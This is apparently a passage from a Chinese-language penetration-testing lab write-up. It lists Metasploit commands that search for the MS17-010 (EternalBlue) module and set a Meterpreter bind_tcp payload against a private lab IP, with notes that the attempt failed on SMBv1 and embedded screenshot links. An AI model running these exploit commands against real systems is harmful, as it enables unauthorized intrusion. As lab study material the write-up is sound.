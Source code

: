 ```
use 3
set rhosts 192.168.52.138
run
```
![](../../attaches/Pasted%20image%2020220914205037.png)
仿佛可以利用，执行如下命令。
```
search ms17-010
use 0
set payload windows/x64/meterpreter/bind_tcp
set rhosts 192.168.52.138
set lport 11111
```
利用不成功，报不能建立SMBv1连接。
![](../../attaches/Pasted%20image%2020220914210557.png)
经过百度发现需要开启postgresql服务，重新run。